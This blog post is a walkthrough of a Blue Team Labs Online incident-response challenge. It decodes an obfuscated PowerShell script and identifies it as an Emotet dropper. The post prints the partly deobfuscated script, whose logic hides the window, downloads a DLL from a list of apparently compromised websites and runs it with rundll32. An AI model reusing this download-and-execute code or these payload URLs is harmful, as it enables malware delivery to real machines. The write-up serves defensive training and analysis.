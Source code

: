 ```yaml
---
title: "Malicious PowerShell Analysis BTLO "
date: 2021-10-09T17:30:30
categories:
  - challenge
tags:
  - Blue Team Labs Online
  - Forensics
  - Incident Response
classes: wide
---
```

Continuing the skill-set diversification, a medium rated retired incident response challenge from [Blue Team Labs Online.](https://blueteamlabs.online/home/challenge/7)

>*"Recently the networks of a large company named GothamLegend were compromised after an employee opened a phishing email containing malware. The damage caused was critical and resulted in business-wide disruption. GothamLegend had to reach out to a third-party incident response team to assist with the investigation. You are a member of the IR team - all you have is an encoded Powershell script. Can you decode it and identify what malware is responsible for this attack?*"

The challenge has guided questions to answer to obtain points.

---

First we unzip the challenge:

<img src="/assets/images/malpowerbtlo/mal1.PNG" alt="Unzipping the file.">

Then have a look at the contents!:

<img src="/assets/images/malpowerbtlo/mal2.PNG" alt="Looking at the contents.">

Welp.

<h4>De-obfuscation</h4>

It appears to be obfuscated powershell. According to [malware.news](https://malware.news/t/deobfuscating-powershell-putting-the-toothpaste-back-in-the-tube/23509):

>*"PowerShell commands can be logged and script files can be captured for analysis. This gives us a chance to perform after-action forensics to see what the attacker was up to and if they were successful. Unfortunately, attackers don’t like making this easy, so they will often obfuscate and encode commands to deter and slow down analysts."*

The opening line of the `ps_script.txt` log shows:

```powershell
POwersheLL  -w hidden -ENCOD
```
It seems powershell is case-insensitive, and autocompletes flags. 

These commands show that the powershell window was hidden with `-w hidden` and then its commands were encoded into base64 with `-ENCOD` which is encode. 

We throw the output of the `.txt` file into GCHQ's CyberChef and convert from base64:

<img src="/assets/images/malpowerbtlo/mal3.PNG" alt="Converting from base64.">

It still looks pretty difficult to read, searching around the web suggests that we try and remove null bytes from the output like so:

<img src="/assets/images/malpowerbtlo/mal4.PNG" alt="Removing null bytes.">

After removing null bytes these commands are still hard to read, more research suggests the use of CyberChef's `Generic Code Beautify`. From here we try to remove as much as we can through `find/replace` like so:

<img src="/assets/images/malpowerbtlo/mal5.PNG" alt="Using Find/replace to remove seemingly useless items.">

The final result is shown below:

```powershell
sEtMKu[TYPe]01243-FSYsTeMioDIORYrECt;
SeT-iTEMvaRIabLEmBu[TYPe]680345271-fSteMGerManetseRVIcepOintsNAY;
$ErrorActionPreference=SilentlyContinue;
$Cvmmq4o=$Q26L[char]64$E16H;
$J16J=N_0P;
DIrVariabLEMkuVaLUecREAtedIRECTORy$HOME0Db_bh300Yf5be5g0-F[chAR]92;
$C39Y=U68S;
vARiaBLembu-VAlueoNsEcuRITYproTocol=Tls12;
$F35I=I4_B;
$Swrp6tc=A69S;
$X27H=C33O;
$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;
$K47V=R49G;
$B9fhbyv=]anw[3s//admintkcom/wp-admin/L/@]anw[3s//mikegeerinckcom/c/YYsa/@]anw[3//freelancerwebdesignerhyderabadcom/cgi-bin/S/@]anw[3//etdogcom/wp-content/nu/@]anw[3s//wwwhintupcombr/wp-content/dE/@]anw[3//wwwstmarounsnsweduau/paypal/b8G/@]anw[3//wmmcdevelopnet/content/6F2gd/REplACe]anw[3[array]sdswhttp3d[1]sPLIT$C83R$Cvmmq4o$F10Q;
$Q52M=P05K;
foreach$Bm5pw6zin$B9fhbyv
try
&New-ObjectSysTemnEtWEBcLIeNTdoWNlOaDFIlE$Bm5pw6z$Imd1yck;
$Z10L=A92Q;
If&Get-Item$Imd1ycklenGTH-ge35698
&rundll32$Imd1yckControl_RunDLLTOStRiNG;
$R65I=Z09B;
break;
$K7_H=F12U

catch

$W54I=V95O
```

Now lets try and answer the questions!

<h4>What security protocol is being used for the communication with a malicious domain? </h4>

`sEcuRITYproTocol=Tls12` means TLS 1.2.

<h4>What directory does the obfuscated PowerShell create? (Starting from \HOME\)</h4>

This took be quite a bit to figure out, but reading the line where HOME is present made it clearer:

`$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92`

We see `replace uoh [string][char]92`. Looking at char 92 in an ASCII table:

<img src="/assets/images/malpowerbtlo/mal6.PNG" alt="92 = \.">

So we can read `$HOMEUOHDb_bh30UOHYf5be5gUOH` as `\HOME\Db_bh30\Yf5be5g\`. 

<h4>What file is being downloaded (full name)?</h4>

Looking back at our HOME line we see: 

`$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;`

Since we now know that the directory the script creates is `\HOME\Db_bh30\Yf5be5g\` anything after `[StrInG][chAr]92` should be our downloaded file. 

Thus `$Swrp6tcdll` is the downloaded file, dll seems to be the file extension. We can try `Swrp6tc.dll`. 

However this is not correct. If we search for other references to `Swrp6tc` in the logs we find `$Swrp6tc=A69S;`, `$Swrp6tc` is a variable! This should have been obvious from the `$` sign in front of it. 

We instead try `A69S.dll` which is correct!

<h4>What is used to execute the downloaded file?</h4>

Now that we know it is a dll file, we see `&rundll32$Imd1yckControl_RunDLLTOStRiNG;` and see if `rundll32` is the `.exe` used to execute the file. 

It is correct!

<h4>What is the domain name of the URI ending in ‘/6F2gd/’</h4>

Searching through our logs we see the line `wmmcdevelopnet/content/6F2gd`. The URI doesn't make much sense without the `.` which we removed earlier through find/replace. 

Heading back to CyberChef to add them back in we see: `wm.mcdevelop.net/content/6F2gd` meaning the answer is `wm.mcdevelop.net`.

<h4>Based on the analysis of the obfuscated code, what is the name of the malware?</h4>

Googling around for the `A69S.dll` we come across MalwarebBazaar's [database](https://bazaar.abuse.ch/sample/23be1cb22c94fe77cea5f8e7fef6710eeef5a23e7e7eb9b9dd53f56d1b954269/) which suggests that the malware name is `Emotet (aka Heodo)`. We try Emotet and are rewarded with challenge complete!

<img src="/assets/images/malpowerbtlo/mal7.PNG" alt="https://blueteamlabs.online/achievement/share/challenge/14446/7">